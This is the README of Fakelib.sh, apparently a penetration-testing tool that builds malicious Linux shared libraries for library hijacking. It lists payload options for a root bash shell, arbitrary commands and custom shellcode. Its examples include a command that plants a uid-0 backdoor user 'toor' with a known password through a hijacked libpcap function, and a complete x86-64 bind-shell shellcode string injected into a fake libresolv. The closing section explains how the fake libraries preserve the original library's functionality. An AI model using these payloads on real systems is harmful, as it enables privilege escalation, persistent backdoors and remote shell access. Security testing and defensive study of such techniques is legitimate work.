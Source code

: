 # Fakelib.sh

Fakelib.sh is a simple tool for generating Linux shared libraries to use in library hijacking scenarios. It can be used to create empty libraries with some payload and run them with LD_PRELOAD. It can be also used to create a malicious library that emulates an existing library, exporting all its original symbols and trying to call the original functions to maintain the original library functionality.

## Usage

```
Usage: fakelib.sh [-o <output_lib>] [-l <original_lib>] [-t <target_lib>]
                  [-a <arch>] [-m <method>] [-f <function>] [-p <payload>]
                  [-c <command>] [-s <shellcode>] [-f] [-g] [-v] [-h]
```

**Options**:
* **-o \<output_lib\>**: output with fake library
* **-l \<original_lib\>**: original library to emulate
* **-t \<target_lib\>**: original library path to load with dlopen (use if it's not the same as the -l parameter value)
* **-a \<architecture\>**: "32" or "64"
* **-m \<method\>**: payload execution method. Available methods:
  * **constructor**: run payload in constructor method (default)
  * **destructor**: run payload in destructor method (WARNING, payload may not be executed)
  * **custom**: run payload in custom function (use -f flag) (WARNING, may break functionality in 32 bits)
* **-f \<function\>**: function to inject payload (with method "custom")
* **-p \<payload\>**: payload that the library will run. Available payloads:
  * **echo**: print test message (default)
  * **bash**: run bash setting uid/gid to euid/egid
  * **system**: run custom command (use -c flag)
  * **custom**: run custom shellcode (use -s flag)
* **-c \<custom command\>**: command to run with payload "system"
* **-s \<shellcode\>**: shellcode to run with payload "custom". Must be inside quotes in C string format
* **-f**: fork and run payload in child process
* **-g**: generate links to original library to preserve functionality. (WARNING, doesn't always work)
* **-v**: verbose. Print fake library source code
* **-h**: print help

## Examples

You can try the following examples with the **-v** option to check what code is generated.

Create new 32-bit library "mylib.so" that runs a bash shell when loaded:
```
./fakelib.sh -o mylib.so -a 32 -p bash
```

Emulate library /usr/lib/libpcap.so.1 that creates new user with uid 0 when the "pcap_activate" function is called:
```
./fakelib.sh -l /usr/lib/libpcap.so.1 -m custom -g -f pcap_activate -p system -c "useradd -o -u 0 toor ; echo toor:toor|chpasswd"

```

Emulate library libresolv-2.12.so into /tmp/libresolv.so.2 with original library path under /lib64/libresolv.so.2, that forks and spawns a custom bind shell payload when loaded:
```
./fakelib.sh -l libresolv-2.12.so -o /tmp/libresolv.so.2 -t /lib64/libresolv.so.2 -g -k -p custom -s "\x31\xc0\x31\xdb\x31\xd2\xb0\x01\x89\xc6\xfe\xc0\x89\xc7\xb2\x06\xb0\x29\x0f\x05\x93\x48\x31\xc0\x50\x68\x02\x01\x11\x5c\x88\x44\x24\x01\x48\x89\xe6\xb2\x10\x89\xdf\xb0\x31\x0f\x05\xb0\x05\x89\xc6\x89\xdf\xb0\x32\x0f\x05\x31\xd2\x31\xf6\x89\xdf\xb0\x2b\x0f\x05\x89\xc7\x48\x31\xc0\x89\xc6\xb0\x21\x0f\x05\xfe\xc0\x89\xc6\xb0\x21\x0f\x05\xfe\xc0\x89\xc6\xb0\x21\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x50\x5f\xb0\x3c\x0f\x05"
```

![fakelib.sh demo](https://raw.githubusercontent.com/Eblazquez/fakelib.sh/master/fakelib.sh_demo.gif)

## How does it work?

Using an existing lib and specifying the **-g** option, fakelib.sh tries to load the original library functions. Usually to achieve this, it's necessary to define all these functions on the malicious library, obtain pointers to the original functions with dlsym, and then perform a call to these pointers.

However, the main problem is that the function definitions and calls must specify the expected number/type of arguments of the original library. The process of obtaining these arguments can be tedious, or sometimes they can't be easily obtained. It's possible to create a malicious library exporting all the original symbols with empty functions so it can be loaded and the payload is executed, but the original functionality of the library is lost.

Fakelib.sh exports the same functions as the original library using void* types with no arguments, but instead of calling the original function with a standard C function call, assembly instructions are used to preserve the stack frame. At the start of each function the instructions "push %rbp; mov %rsp,%rbp" are called, so to revert them a "pop %rbp" is performed (or %ebp in x86). Then the original function is called using a jmp instruction (instead of a call so the stack is not modified).

This method is not perfect, and doesn't work for some distributions/versions (like CentOS 6). However, it helps automate the process of generating a working malicious library since this way it's not necessary to know the original number or type of function arguments, and it seems to work with several system libraries.

Anyway, try always first the hijacked library on a controlled environment, if possible hijack the least used libraries, and do not try to hijack main libraries like libc.
